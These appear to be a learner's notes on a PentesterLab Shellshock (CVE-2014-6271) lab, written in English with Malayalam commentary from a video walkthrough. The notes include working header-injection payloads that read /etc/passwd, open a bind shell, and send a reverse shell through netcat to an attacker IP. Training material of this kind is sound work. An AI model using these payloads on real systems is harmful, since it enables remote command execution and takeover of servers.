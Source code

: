 ## Introduction
-->This course details the exploitation of the vulnerability CVE-2014-6271. This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI".

## Fingerprinting
-->By visiting the application with a proxy (Burp Suite or OWASP Zap), we can detect that multiple URL are accessed when the page is loaded:
-->To exploit "Shellshock", we need to find a way to "talk" to Bash. This implies finding a CGI that will use Bash. CGIs commonly use Python or Perl but it's not uncommon to find (on old servers), CGI written in Shell or even C.
-->==What is a CGI ? - In computing, Common Gateway Interface ( CGI) is an interface specification that enables web servers to execute an external program, typically to process user requests. Such programs are often written in a scripting language and are commonly referred to as CGI scripts, but they may include compiled programs.==

## How CGIs work?
-->When you call a CGI, the web server (Apache here) will start a new process and run the CGI. Here it will start a Bash process and run the CGI script.
-->`You can quickly test this by replacing the call to `uptime` by a call to `env` in the CGI. Then if you call this script with arbitrary header, you should see them in the page.`

## The vulnerability
-->Here, we are going to focus on the first version of the vulnerability but many more vulnerabilities in the same subpart of Bash have been found since: CVE-2014-6277, CVE-2014-6278, CVE-2014-7169, CVE-2014-7186, CVE-2014-7187...
-->The source of the issue is that Bash can have internal function declaration in its environment variable. The first version of the vulnerability is related to the ability to run arbitrary commands after a function declaration.
-->First, we need to declare that the environment variable is a function using `()`. Then we will add an empty body for the function. Finally, we can start adding the command we want to run after the function declaration. More details can be found in the [following email on oss-sec](http://seclists.org/oss-sec/2014/q3/650)
-->If you remember what we said before, Apache uses environment variables to pass headers to the CGI. Since it's a Bash based CGI, we will be able to run arbitrary command by declaring an empty function and add a command after this declaration.

## Exploitation
-->This vulnerability can be exploited using a Proxy with a repeater mode (to be faster) or using `netcat`.
-->Multiple payloads can be used depending on what you want to achieve. You can start by reading arbitrary files by using the following payload :
```
-> $ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
-->This payload will read the content of the file `/etc/passwd` and echo it in the response.
-->`You will need to inspect the HTTP headers of the response to see the file's content.`
-->The following part of the payload`() { :;};` is used to create an empty function. Then the command one wish to execute can be added.

## Bind shell
-->If you want to run command, the easiest way is to bind a shell. Basically you will use `netcat` (or `nc`) to listen on a port and redirect input and output to `/bin/sh`.
```
-> $ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
-->`Here, the path to `netcat`/`nc` is given. On a real system, you will have to brute force it and it may not be installed.`
-->If the connection starts hanging, it's a really good sign, the CGI is waiting for you to connect. You can then connect to the bound port using:
```
$ nc vulnerable 9999
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```
-->Bind shells suffer from a huge limitation: it's likely that a firewall between you and your victim will prevent you from connecting to the port you just bound. To bypass this, we are going to get the server to connect back to us.

## Reverse Shell
-->We want the server to connect back to us. To do so, we are first going to bind a port on our system. We want a port that the server is likely to have access to, the most common are 21 (FTP), 53 (DNS), 123 (NTP), 80 (HTTP) and 443 (HTTPs) as they are probably used to keep the system up-to-date and to perform every day operations.
-->We are going to bind the port 443 (You will need to run this command as `root` or using `sudo`) using the following command :
->`nc -l -p 443`
-->Now, we just need to adapt our payload to get the server to connect back to us on port 443 :
```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
-->By going back to our initial `netcat`, we can now type commands locally and they will be ran on the compromised system :
```
nc -l -p 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```

## Running a single command
-->If you are working on the online version, you will only run one command the `/usr/local/bin/score [UUID]` command. After you run the command, the response from the CGI to the web server will not contain two empty lines and will cause the server to send back a HTTP/500 error back to you. To make sure the attack was successful, you need to check on the pentesterlab.com website to see if the exercise is marked as score.

## Conclusion
-->This exercise showed you how to manually detect and exploit ShellShock to gain command execution. This kind of vulnerabilities is really interesting and often stays undetected for a long time as it's located deep inside the interaction between components. I hope you enjoyed learning with PentesterLab.

# video explanation
-->==Shellshock is a **vulnerability in the Bash shell**, a user interface that uses a command-line interface to access an operating system’s services. The current command Bash interpreter lets users execute commands on a computer. The vulnerability allows attackers to run malicious scripts in systems and servers, which compromises everything in it.==
-->churkathil paranjatl shellshock oru attacker in bash command execute chyan sahayikum ok
-->Ivide lab open aakumbol site il thane namuk site il use chyuna server and its kernal inte details kanikunund.ini burp open aaki page reload chyuka.apol namuk korach request kanan patum.athil suspecious aayitullathan /cgi-bin/status request
-->ee request inte response nokiyal kanan patum.ee response ile content aan page load chyumbol site il kanikunath
-->GET / (ie,root page)  ile js code ee /cgi-bin/status request inte response il ninum content fetch chynunund :
```
<script>
		function status() {
                $.getJSON("/cgi-bin/status", function (data) {           
		 $.each( data, function( key, val ) {
    			$('#infos').append ( "<li><b>"+key+"</b>: " + val + "</li>" );
  		});
  		});
                } 

		status();
              </script>
```
-->when exploiting a shellshock the first thing we need to do is target a cgi. we cant run shellshock on the root directory of the server. we need the cgi. bqs the issue is not inside the webserver but inside Bash
-->so ivide namuk cgi-bin/status enna oru requst und.so ath eduth repeater ilek viduka ok
-->The most obvious way to test for shellshock is to use a User-Agent, bqz the user-agent will be logged inside the webserver logs.so someone checking their logs will see that we tried to attack against thier webserver
-->so what we can do is just replace the user-agent value by the shellshock payload :
```
User-Agent: () { :;}; echo $(</etc/passwd)
```
-->so request il ingane koduth send chyumbol namuk response il passwd kitum
-->Now we want a shell on the sysytem.so what we are going to do is get the vulnerable server to connect back to us
-->for that we can use netcat :
->`nc -l -p 9999`   ipol namal listen chyunund.ini server namale connect chyikanam.
-->for that we need to modify user-agent :
```
User-Agent: () { :;}; /usr/bin/nc [our kali ip] 9999 -e /bin/bash
```
-->ingane koduth send adikumbol namal sredhichal kanam namuk repeater il respose kitunila.karanam namude netcat umayi server connect chyapettirikunu. 
-->ini namal listen chyuna terminalil poi ->id ennadichal namuk result kitum. means shell access kiti ok

-->NOTE : ivide video yil ivan chyunath real aayi netcat vech listen chyth chyunathan. but namal chyumbol ->nc -lvnp 9999  oke koduth chythal aakila.ath ee lab inte theory partil (Running a single command) parayunund.so namal ee lab complete aakan nc in pakaram nammude UUID vech send chyanam ie,
```
User-Agent: () { :;}; /usr/local/bin/score 66d1486a-6571-4069-a67b-c4a70a99798d
```
-->Ipol 500 Internal server error kanikum.ini lab il poi reload chythal lab completed enn kanikum ok